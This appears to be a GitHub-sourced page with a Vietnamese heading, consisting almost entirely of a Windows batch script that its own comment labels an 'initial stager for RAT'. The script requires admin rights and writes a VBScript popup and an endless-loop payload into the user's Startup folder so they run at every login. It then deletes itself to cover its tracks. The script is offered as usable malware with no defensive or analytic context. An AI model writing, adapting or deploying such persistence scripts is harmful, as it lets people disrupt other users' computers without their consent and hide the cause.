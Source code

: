 

### Đoạn Mã Đầy Đủ

```cmd
@echo off

REM initial stager for RAT
REM created by

REM Kiểm tra quyền quản trị viên
net session >nul 2>&1
if %errorlevel% neq 0 (
    echo Vui long chay script voi quyen quan tri vien!
    pause
    exit /b
)

REM Chuyển đến thư mục Startup
cd /d "C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup"
if %errorlevel% neq 0 (
    echo Khong the truy cap thu muc Startup!
    pause
    exit /b
)

REM Tạo tệp popup.vbs
echo MsgBox "LINE 1" ^& vbCrLf ^& "LINE 2", 262192, "TITLE" > popup.vbs

REM Tạo tệp payload.cmd
(
    echo @echo off
    echo :loop
    echo start /min cmd /c "popup.vbs"
    echo goto loop
) > payload.cmd

REM Kiểm tra xem các tệp đã được tạo chưa
if not exist "popup.vbs" (
    echo Khong the tao popup.vbs!
    pause
    exit /b
)
if not exist "payload.cmd" (
    echo Khong the tao payload.cmd!
    pause
    exit /b
)

REM Tự xóa script sau khi hoàn thành
(
    echo timeout /t 1 /nobreak ^>nul
    echo del /f /q "%~f0"
) | cmd

exit /b
```

---